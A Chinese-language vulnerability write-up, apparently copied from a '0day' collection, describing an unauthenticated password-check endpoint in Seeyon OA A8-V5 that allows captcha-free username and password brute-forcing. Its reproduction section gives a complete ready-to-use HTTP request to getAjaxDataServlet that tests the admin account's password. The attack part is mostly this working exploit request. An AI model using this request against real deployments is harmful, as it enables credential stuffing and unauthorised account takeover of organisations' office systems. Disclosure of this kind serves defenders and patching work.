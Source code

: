 # 致远 OA A8-v5 无视验证码撞库

> 原文：[http://book.iwonder.run/0day/致远 oa/12.html](http://book.iwonder.run/0day/致远 oa/12.html)

## 一、漏洞简介

致远 A8-V5 在设计时存在逻辑错误，用户修改密码时对原密码进行了验证，但是验证使用的服务存在未授权访问漏洞，系统对非合法请求的原密码验证功能进行回应，导致了无视验证码，无需 login 页面进行密码尝试

## 二、漏洞影响

致远 OA A8-v5

## 三、复现过程

POST 穷举用户和密码代码如下

```
GET /seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=admin&P_2_String=wy123456 HTTP/1.0

Accept: */*

Accept-Language: zh-cn

Referer: http://www.0-sec.org/seeyon/individualManager.do?method=managerFrame

requesttype: AJAX

Content-Type: application/x-www-form-urlencoded

Cookie: 

User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko

Host: www.0-sec.org

DNT: 1

Proxy-Connection: Keep-Alive 
```

![image](img/d59d94c3280899187578464ef24974f2.png)

